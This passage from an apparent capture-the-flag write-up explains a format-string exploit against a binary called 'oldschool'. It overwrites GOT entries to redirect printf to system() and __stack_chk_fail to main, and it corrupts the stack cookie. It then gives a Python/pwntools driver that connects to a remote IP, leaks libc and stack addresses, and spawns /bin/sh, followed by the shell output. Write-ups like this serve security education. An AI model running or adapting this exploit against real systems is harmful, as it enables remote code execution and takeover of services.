 Here we overwrite the LSBs of `.got:__stack_chk_fail` with the LSBs of `main()`, overwrite `.got:printf` with the address of `system()` and overwrite the saved stack cookie with junk (note that this can be anything as long as its least significant byte is not 0x00 because stack cookie generation makes sure a stack cookie always has 0x00 as its least significant byte to complicate stack buffer overflow exploitation efforts).

There is some minor headache involved here because the nature of the format string `%n` and `%hn` specifiers mean that we always write the number of bytes printed so far to the target address which means that if we want to write a small and a large value we need to write the small value first and then the large value. As such we sort the order of address we write to and the values we write to them (rather inefficiently). Obviously the right way to go about doing this is by simply sorting an array of (address, value) tuples in ascending order on the value field but oh well.

## Putting it all together

Now that we have our exploit-generation code for the two stages we can [put it all together as follows](solution/oldschool_sploit.py):

```python
cmd = '/bin/sh'
libc_offsets = {'2.21': {'libc_start_main_ret': 0x0001873E, 'system': 0x0003B180}}
version = '2.21'
libc_start_main_ret_offset = libc_offsets[version]['libc_start_main_ret']
system_offset = libc_offsets[version]['system']
cookie_ptr_offset = (0xF8 + 0xC)

host = '175.119.158.131'
port = 17171

h = remote(host, port, timeout = None)

print "[*] Executing stage 1..."

libc_base_addr, stackcookie_addr = stage_1(h)
libc_base_addr = (libc_base_addr - libc_start_main_ret_offset)
system_addr = (libc_base_addr + system_offset)
stackcookie_addr = (stackcookie_addr - cookie_ptr_offset)

print "[+] Got libc base address: [%x]" % libc_base_addr
print "[+] Got system() address: [%x]" % system_addr
print "[+] Got stack cookie address: [%x]" % stackcookie_addr

print "[*] Executing stage 2..."

stage_2(h, stackcookie_addr, system_addr, cmd)

h.close()
```

Which, when executed, gives us:

```bash
$ ./oldschool_sploit.py 
[+] Opening connection to 175.119.158.131 on port 17171: Done
[*] Executing stage 1...
[+] Got libc base address: [b754e000]
[+] Got system() address: [b7589180]
[+] Got stack cookie address: [bfd7c41c]
[*] Switching to interactive mode

     sh: 1: YOUR: not found
sh: 1: RESPONSE: not found
$ id
uid=1001(oldschool) gid=1001(oldschool) groups=1001(oldschool)
$ ls -la
total 77
```